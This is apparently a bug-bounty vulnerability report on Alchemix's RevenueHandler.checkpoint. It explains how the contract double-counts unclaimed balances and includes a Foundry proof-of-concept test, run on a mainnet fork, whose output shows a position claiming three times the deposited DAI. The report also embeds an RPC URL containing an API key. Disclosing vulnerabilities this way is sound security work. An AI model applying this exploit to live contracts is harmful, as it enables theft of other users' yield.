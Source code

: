 
# `RevenueHandler.checkpoint` isn't correctly

Submitted on Wed May 15 2024 14:16:14 GMT-0400 (Atlantic Standard Time) by @jasonxiale for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31253

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/RewardsDistributor.sol

Impacts:
- Theft of unclaimed yield

## Description
## Brief/Intro
`RevenueHandler.checkpoint` isn't correctly when `tokenConfig.poolAdapter` is __0__, which cause `epochRevenues` record wrong number, so some users will claim more token than expected, and other user can't claim the tokens

## Vulnerability Details
`RevenueHandler.checkpoint` isn't correctly when `tokenConfig.poolAdapter` is __0__, which cause `epochRevenues` record wrong number, so some users will claim more token than expected, and other user can't claim the tokens
## Vulnerability Details
In [RevenueHandler.checkpoint](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/RevenueHandler.sol#L228-L268), if `tokenConfig.poolAdapter` is zero, `epochRevenues[currentEpoch][token] += amountReceived;` is used to update value, and `thisBalance` is equal to `IERC20(token).balanceOf(address(this))`
__The issue is that `IERC20(token).balanceOf(address(this))` may contains the token that hasn't been claimed. In such case, it means that the amount will be added twice.__

```solidity
228     function checkpoint() public {
229         // only run checkpoint() once per epoch
230         if (block.timestamp >= currentEpoch + WEEK /* && initializer == address(0) */) {
231             currentEpoch = (block.timestamp / WEEK) * WEEK;
232 
233             uint256 length = revenueTokens.length;
234             for (uint256 i = 0; i < length; i++) {
	...
244 
245                 uint256 thisBalance = IERC20(token).balanceOf(address(this));
246 
247                 // If poolAdapter is set, the revenue token is an alchemic-token
248                 if (tokenConfig.poolAdapter != address(0)) {
	...
258                 } else {
259                     // If the revenue token doesn't have a poolAdapter, it is not an alchemic-token
260                     amountReceived = thisBalance;  <<<--- thisBalance is IERC20(token).balanceOf(address(this));

261 
262                     // Update amount of non-alchemic-token revenue received for this epoch
263                     epochRevenues[currentEpoch][token] += amountReceived; <<<--- += is used here
264                 }
265 
266                 emit RevenueRealized(currentEpoch, token, tokenConfig.debtToken, amountReceived, treasuryAmt);
267             }
268         }
269     }
```


## Impact Details
`epochRevenues` isn't updated correctly in some case, so some users will claim more token than expected, and other user can't claim the tokens

## References
Add any relevant links to documentation or code

        
## Proof of concept
## Proof of Concept
Put the following code in `src/test/RevenueHandler.t.sol` and run
```bash
FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/0TbY2mhyGA4gLPShfh-PwBlQ3PDNUdL1 --fork-block-number 17133822 --mc RevenueHandlerTest --mt testTwoCheckpoint -vv
[⠊] Compiling...
No files changed, compilation skipped

Ran 1 test for src/test/RevenueHandler.t.sol:RevenueHandlerTest
[PASS] testTwoCheckpoint() (gas: 2223762)
Logs:
  currentEpoch                    : 1686182400
  revenueHandler.epochRevenues    : 1000000000000000000000
  dai.balanceOf(revenueHandler)   : 1000000000000000000000
  revenueHandler.claimable        : 1000000000000000000000
  currentEpoch                    : 1687392000
  revenueHandler.epochRevenues    : 1000000000000000000000
  dai.balanceOf(revenueHandler)   : 1000000000000000000000
  revenueHandler.claimable        : 2000000000000000000000
  currentEpoch                    : 1688601600
  revenueHandler.epochRevenues    : 1000000000000000000000
  dai.balanceOf(revenueHandler)   : 1000000000000000000000
  revenueHandler.claimable        : 3000000000000000000000

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 6.07ms (2.69ms CPU time)

Ran 1 test suite in 1.22s (6.07ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

As we can see from the test, only `1000e18` DAI is transferred to `revenueHandler`, but the `tokenId` can claim 3000e18 DAI

```solidity
    function testTwoCheckpoint() external {
        uint256 currentEpoch;
        uint256 WEEK = 2 weeks;
        revenueHandler.setPoolAdapter(dai, address(0));

        uint tokenId = _initializeVeALCXPosition(10e18);

        _jumpOneEpoch();
        _jumpOneEpoch();
        _jumpOneEpoch();

        uint256 revAmt = 1000e18;
        _accrueRevenue(dai, revAmt);
        revenueHandler.checkpoint();
        currentEpoch = (block.timestamp / WEEK) * WEEK;

        console2.log("currentEpoch                    :", currentEpoch);
        console2.log("revenueHandler.epochRevenues    :", revenueHandler.epochRevenues(currentEpoch, dai));
        console2.log("dai.balanceOf(revenueHandler)   :", IERC20(dai).balanceOf(address(revenueHandler)));
        console2.log("revenueHandler.claimable        :", revenueHandler.claimable(tokenId, dai));

        _jumpOneEpoch();
        revenueHandler.checkpoint();
        currentEpoch = (block.timestamp / WEEK) * WEEK;
        console2.log("currentEpoch                    :", currentEpoch);
        console2.log("revenueHandler.epochRevenues    :", revenueHandler.epochRevenues(currentEpoch, dai));
        console2.log("dai.balanceOf(revenueHandler)   :", IERC20(dai).balanceOf(address(revenueHandler)));
        console2.log("revenueHandler.claimable        :", revenueHandler.claimable(tokenId, dai));

        _jumpOneEpoch();
        revenueHandler.checkpoint();
        currentEpoch = (block.timestamp / WEEK) * WEEK;
        console2.log("currentEpoch                    :", currentEpoch);
        console2.log("revenueHandler.epochRevenues    :", revenueHandler.epochRevenues(currentEpoch, dai));
        console2.log("dai.balanceOf(revenueHandler)   :", IERC20(dai).balanceOf(address(revenueHandler)));
        console2.log("revenueHandler.claimable        :", revenueHandler.claimable(tokenId, dai));
    }
```